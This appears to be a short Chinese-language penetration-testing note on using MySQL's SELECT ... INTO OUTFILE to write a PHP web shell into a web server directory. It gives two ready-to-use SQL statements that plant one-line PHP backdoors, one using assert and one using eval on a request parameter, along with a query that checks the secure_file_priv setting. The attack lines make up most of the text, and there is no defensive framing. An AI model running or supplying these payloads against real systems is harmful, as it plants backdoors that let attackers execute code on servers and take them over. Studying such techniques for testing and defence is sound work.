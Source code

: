 ### 一、mysql写shell到web路径

1.低版本Mysql
Mysql低于5.0，可以直接通过outfile写入：

```
SELECT "<?php @assert($_REQUEST["admin"]);?>" INTO OUTFILE  '/网站绝对路径/shell.php'
```

2.高版本Mysql
(1)通过以下SQL语句可以查询secure_file_priv（secure-file-priv是全局变量，指定文件夹作为导出文件存放的地方，这个值是只读的）是否为null：

不为 null 时可以写入文件，为 null 则只能手动修改在 MySQL 的配置文件 my.ini 中进行配置

```
show variables like '%secure%'
```

<img src=".\图片\Snipaste_2023-02-11_12-52-41.png" alt="Snipaste_2023-02-11_12-52-41" style="zoom:80%;" />

3、写入一句话

```sql
select '<?php @eval($POST[1]); ?>' INTO OUTFILE 'D:\\phpStudy\\WWW\\ak.php';
```

<img src=".\图片\Snipaste_2023-02-11_12-56-25.png" alt="Snipaste_2023-02-11_12-56-25" style="zoom:80%;" />
